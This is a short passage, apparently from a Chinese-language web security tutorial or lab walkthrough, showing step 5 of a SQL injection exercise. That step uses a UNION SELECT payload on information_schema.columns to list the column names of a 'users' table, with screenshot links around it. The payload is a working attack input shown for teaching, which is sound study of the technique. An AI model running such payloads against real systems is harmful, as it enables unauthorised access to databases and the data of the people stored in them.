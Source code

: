 ![image-20220417220438810](/img/security/image-20220417220438810.png)

5.查询表的字段名

```sql
1' union select column_name, 1 FROM information_schema.columns WHERE table_name = 'users' -- '
```

![image-20220417221811964](/img/security/image-20220417221811964.png)
